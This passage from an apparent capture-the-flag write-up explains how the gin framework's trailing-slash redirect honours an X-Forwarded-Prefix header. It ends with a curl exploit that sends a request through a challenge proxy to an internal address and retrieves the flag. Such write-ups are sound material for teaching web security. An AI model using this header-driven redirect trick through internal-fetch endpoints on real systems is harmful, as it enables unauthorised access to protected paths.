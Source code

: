 This gives us the clue. The gin framework may have some features about url correction using redirection, which can be leveraged.

Look up the source code the gin framework, we find such a snippet in function `gin.go/handleHTTPRequest`

```go
if httpMethod != http.MethodConnect && rPath != "/" {
    if value.tsr && engine.RedirectTrailingSlash {
        redirectTrailingSlash(c)
        return
    }
    if engine.RedirectFixedPath && redirectFixedPath(c, root, engine.RedirectFixedPath) {
        return
    }
}
```

In the definition of the function `redirectTrailingSlash`, a header named `X-Forwarded-Prefix` is checked. Obviously that's what we want.

```go
func redirectTrailingSlash(c *Context) {
	req := c.Request
	p := req.URL.Path
	if prefix := path.Clean(c.Request.Header.Get("X-Forwarded-Prefix")); prefix != "." {
		prefix = regSafePrefix.ReplaceAllString(prefix, "")
		prefix = regRemoveRepeatedChar.ReplaceAllString(prefix, "/")

		p = prefix + "/" + req.URL.Path
	}
	req.URL.Path = p + "/"
	if length := len(p); length > 1 && p[length-1] == '/' {
		req.URL.Path = p[:length-1]
	}
	redirectRequest(c)
}
```

The remaining thing is simple, finding a path that will be redirected to `/` and set the header `X-Forwarded-Prefix` to `/flag/`. The final exp:

```bash
$ curl 'http://34.84.87.77:11001/curl/?url=http://127.0.0.1:8080//&header_key=X-Forwarded-Prefix&header_value=/flag'
{"body":"{\"message\":\"= LINECTF{b80233bef0ecfa0741f0d91269e203d4}\"}","status":"200 OK"}
```


## Flag Masker

